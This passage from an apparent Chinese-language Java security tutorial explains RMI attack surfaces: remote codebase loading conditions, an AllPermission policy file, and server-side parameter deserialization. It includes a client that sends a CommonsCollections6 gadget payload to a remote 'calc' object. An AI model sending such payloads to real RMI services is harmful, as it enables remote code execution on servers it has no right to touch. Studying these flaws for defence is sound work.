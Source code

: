```java
    }
}
```

vuln.policy

```java
grant {
    permission java.security.AllPermission;

};
```

因为从远程codebase加载类具有高危性，所以只有满足如下条件的RMI客户端/服务端才能被攻击：

- 安装并配置了SecurityManager
- 设置了 java.rmi.server.useCodebaseOnly=false 或者Java版本低于7u21、6u45(此时该值默认为false)

#### 3.序列化安全问题

我们在debug的时候发现,在处理的时候，实际上对象是绑定在本地JVM中，只有函数参数和返回值是通过网络传送的，所以这几个部分就会设计到`序列化和反序列化`(网络传输的必备)

- 参数
- 返回值
- `异常处理`

##### 远程方法参数反序列化(`服务端`远程参数是object和远程参数不是object)

```java
package com.dem0.rmi;
import com.dem0.vuln.CC6;

import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.util.ArrayList;
import java.util.List;

public class Main {
    public static void main(String[] args) {
        try {
            Registry registry = LocateRegistry.getRegistry("192.168.59.1", 1099);
            ICalc calc = (ICalc) registry.lookup("calc");
            List<Integer> li = new ArrayList<Integer>();
            li.add(1);
            li.add(2);
            System.out.println(calc.equ(new CC6().getPayload(),1));
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

但是在这里，我们有一个利用的前提，就是参数必须首先是`object`属性的，不然他是不是不会触发readObejct的，为了继续深入理解，我们继续看`UnicastServerRef#dispatch`所以我们知道这是一个分发接口的。偷一下`eki`大哥哥的简化流程
